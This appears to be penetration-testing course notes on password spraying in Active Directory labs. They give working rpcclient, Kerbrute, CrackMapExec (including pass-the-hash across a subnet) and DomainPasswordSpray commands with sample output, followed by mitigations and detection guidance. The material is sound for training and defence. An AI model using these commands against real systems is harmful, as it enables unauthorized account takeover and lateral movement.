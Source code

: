 ## Linux

With Rpcclient authority name response indicates a successful login attempt, so we can grep for it with the following bash one-liner (adapted from [here](https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/)).

### Using a Bash one-liner for the attack
```shell-session
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

### Example Output
```shell-session
$ for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done

Account Name: tjohnson, Authority Name: INLANEFREIGHT
Account Name: sgage, Authority Name: INLANEFREIGHT
```

### Using Kerbrute for the Attack
```shell-session
$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```

Another great option is using CrackMapExec. Here we grep for `+` to filter out logon failures.

### Using CrackMapExec & Filtering Logon Failures
```shell-session
$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```

### Validating the Credentials with CrackMapExec
```shell-session
$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```

### Local Administrator Password Reuse

If we obtain administrative access and the NTLM password hash or cleartext password for the local administrator account. This can be attempted across multiple hosts in the network. Local administrator account password reuse is widespread due to the use of gold images in automated deployments and the perceived ease of management by enforcing the same password across multiple hosts.

We can use CrackMapExec for this attack. High-value hosts such as SQL or Microsoft Exchange servers are most likely to have privileged user logged in or have their credentials persistent in memory.

One consideration is password reuse or common password formats across accounts. If we find a local administrator's password with something unique like `$desktop%@admin123` it might be worth attempting `$server%@admin123` against servers. also if we find non-standard administrator account such as `bsmith` we might find that the password is reused for similarly named domain user account. The same principle can apply to domain account, if we retrieve the password for a user named `ajones`, it is worth trying the same password for their admin account (if the user has one), for example `ajones_adm`, to see if they are reusing their password. This is also common in domain trust situations. We might obtain valid credentials for a user in domain A that are valid for a user with the same or a similar username in domain B.

In case we only retrieve the NTLM hash for the local administrator, we can spray the NT hash across the entire subnet (or multiple subnets). `Make sure the --local-auth flag is set so we don't potentially lock out the built-in administrator for the domain`. By default the tool will attempt to authenticate to the current domain.

#### Local Admin Spraying with CrackMapExec
```shell-session
$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

SMB         172.16.5.50     445    ACADEMY-EA-MX01  [+] ACADEMY-EA-MX01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.25     445    ACADEMY-EA-MS01  [+] ACADEMY-EA-MS01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.125    445    ACADEMY-EA-WEB0  [+] ACADEMY-EA-WEB0\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
```

This technique isn't good for an assessment that requires stealth. It is always good to look for it, even if it doesn't help us in compromising the domain, as it is a common issue and should be highlighted for our clients. One way to remediate this issue is to use the free Microsoft tool [Local Administrator Password Solution (LAPS)](https://www.microsoft.com/en-us/download/details.aspx?id=46899) to have active directory manage local administrator passwords and enforce a unique password on each host that rotates on a set interval.

## windows

From a foothold on a domain-joined Windows host, the [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) tool is highly effective. If we are authenticated to the domain the tool will automatically generate a user list from active directory, query the domain password policy, and exclude user accounts within one attempt of locking out. If we are not authenticated to the domain we can also provide a user list. The `-UserList` flag is used to supply a user list.

### Using DomainPasswordSpray.ps1
```powershell-session
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

We can also use Kerbrute the same way as with a Linux host.

### Mitigations

No single solution will entirely prevent a password spraying attack, but a defense-in-depth approach will render password spraying attacks extremely difficult.

|Technique|Description|
|---|---|
|`Multi-factor Authentication`|Multi-factor authentication can greatly reduce the risk of password spraying attacks. Many types of multi-factor authentication exist, such as push notifications to a mobile device, a rotating One Time Password (OTP) such as Google Authenticator, RSA key, or text message confirmations. While this may prevent an attacker from gaining access to an account, certain multi-factor implementations still disclose if the username/password combination is valid. It may be possible to reuse this credential against other exposed services or applications. It is important to implement multi-factor solutions with all external portals.|
|`Restricting Access`|It is often possible to log into applications with any domain user account, even if the user does not need to access it as part of their role. In line with the principle of least privilege, access to the application should be restricted to those who require it.|
|`Reducing Impact of Successful Exploitation`|A quick win is to ensure that privileged users have a separate account for any administrative activities. Application-specific permission levels should also be implemented if possible. Network segmentation is also recommended because if an attacker is isolated to a compromised subnet, this may slow down or entirely stop lateral movement and further compromise.|
|`Password Hygiene`|Educating users on selecting difficult to guess passwords such as passphrases can significantly reduce the efficacy of a password spraying attack. Also, using a password filter to restrict common dictionary words, names of months and seasons, and variations on the company's name will make it quite difficult for an attacker to choose a valid password for spraying attempts.|

### Other considerations

It is vital to ensure that the domain password lockout policy doesn't increase the risk of denial of service attack, which can happen if administrative intervention is needed to unlock accounts manually.

### Detection

External password spraying attacks can be indicated form many account lockouts in a short period, server or application logs showing many login attempts with valid or non-existent users, or many requests in a short period to a specific application or URL.

In the DC's many instances of event ID [4625: An account failed to log on](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4625) over a short period may indicate a password spraying attack. Organizations should have rules to correlate many logon failures within a set time interval to trigger an alert. A more savvy attacker may use LDAP instead of SMB. Organizations should also monitor event ID [4771: Kerberos pre-authentication failed](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4771). For this they should enable Kerberos logging. This [post](https://www.hub.trimarcsecurity.com/post/trimarc-research-detecting-password-spraying-with-security-event-auditing) details research around detecting password spraying using Windows Security Event Logging.

### External Password Spraying

Password spraying is also common for attackers to attempt to gain a foothold on the internet. For example through Email Inboxes or web applications such as externally facing intranet sites. Some common targets include:

- Microsoft 0365
- Outlook Web Exchange
- Exchange Web Access
- Skype for Business
- Lync Server
- Microsoft Remote Desktop Services (RDS) Portals
- Citrix portals using AD authentication
- VDI implementations using AD authentication such as VMware Horizon
- VPN portals (Citrix, SonicWall, OpenVPN, Fortinet, etc. that use AD authentication)
- Custom web applications that use AD authentication

